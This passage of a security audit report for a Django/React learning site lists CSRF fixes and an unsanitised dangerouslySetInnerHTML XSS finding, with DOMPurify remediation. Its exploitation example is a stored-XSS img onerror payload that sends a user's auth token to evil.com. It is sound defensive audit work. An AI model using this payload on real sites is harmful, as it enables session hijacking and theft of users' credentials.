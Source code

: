 **Remediation:**
1. **Remove ALL `@csrf_exempt` decorators** from API endpoints
2. Ensure CSRF tokens are included in POST requests from React frontend
3. Use Django REST Framework's session authentication or ensure JWT is properly validated
4. Add CSRF middleware check for session-based requests

---

### 🔴 CRITICAL-3: Unrestricted XSS via dangerouslySetInnerHTML
**Locations:**
- `/frontend/src/pages/WagtailLessonPage.jsx:19, 54, 91, 135, 233, 338`
- `/frontend/src/pages/WagtailExercisePage.jsx:262, 333, 347, 404`
- `/frontend/src/pages/StepBasedExercisePage.jsx:294, 649`
- `/frontend/src/pages/BlogPostPage.jsx:71, 149`

**Vulnerability:**
```jsx
// NO SANITIZATION - Direct XSS vulnerability
<div dangerouslySetInnerHTML={{ __html: content }} />

// Example with user content:
<div dangerouslySetInnerHTML={{ __html: exercise.description }} />
```

**Impact:**
- Stored XSS attacks
- Session hijacking (steal JWT tokens from localStorage)
- Keylogging, credential theft
- Malicious redirects, phishing
- Can compromise all users viewing the content

**Exploitation:**
```javascript
// Attacker creates exercise with malicious description:
description: '<img src=x onerror="fetch(\'https://evil.com/steal?\'+localStorage.getItem(\'authToken\'))">'
```

**Remediation:**
1. **Sanitize ALL HTML content** before rendering:
```jsx
import DOMPurify from 'dompurify'

// CORRECT usage:
<div dangerouslySetInnerHTML={{
  __html: DOMPurify.sanitize(content, {
    ALLOWED_TAGS: ['p', 'br', 'strong', 'em', 'code', 'pre'],
    ALLOWED_ATTR: []
  })
}} />
```

2. Apply DOMPurify to ALL 22 instances found
3. Configure restrictive allowlists - only allow necessary tags

---